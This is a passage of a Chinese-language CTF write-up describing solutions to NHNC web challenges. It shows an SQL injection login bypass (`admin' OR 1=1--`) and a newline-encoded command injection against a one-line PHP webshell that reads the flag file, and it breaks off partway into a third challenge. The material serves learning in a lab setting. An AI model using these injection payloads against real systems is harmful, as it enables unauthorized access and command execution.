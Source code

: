 就一個很簡單的Login Page，直覺SQL Injection
![image](https://hackmd.io/_uploads/S1fAchdf1x.png)

當時啥都沒想，隨便構造一個payload:
`admin' OR 1=1--`

...然後就打進去了XDDD
![image](https://hackmd.io/_uploads/SyV2i3OM1e.png)

> NHNC{S1mp|e_-_SQL!}

## 1 line php (300 pts)
```
1 line >w<b

http://chal.nhnc.ic3dt3a.org:60000
Hint:
Flag is at /
```
連進去:
![image](https://hackmd.io/_uploads/S1J7nhOz1l.png)
一個很簡單的php木馬，但發現前面插了一個註解符號，變成不會執行`system()`函數

我們可以用換行的方式規避掉

`cmd`參數用`%0Als%20/`(`%0A`是換行的URL編碼):
![image](https://hackmd.io/_uploads/HymagTuzJe.png)
flag的檔案是`flag-`

payload:
`http://chal.nhnc.ic3dt3a.org:60000/?cmd=%0A%20cat%20/flag-`

> NHNC{enter_is_always_the_best}

## Democracy (350 pts)
```
出題者: Frank

The Republic of Frank National Assembly needs your participation! Head over here

Hint:
FOSS-Its means Open for what?
```
Link:https://nhnc-ctf-frank2.dypc.cc/
![image](https://hackmd.io/_uploads/SkEcEauMkx.png)

按下`我要覆議`按鈕，會被rick roll

但看他的跳轉連結，是導向`/next`
![image](https://hackmd.io/_uploads/S1ver6dG1g.png)
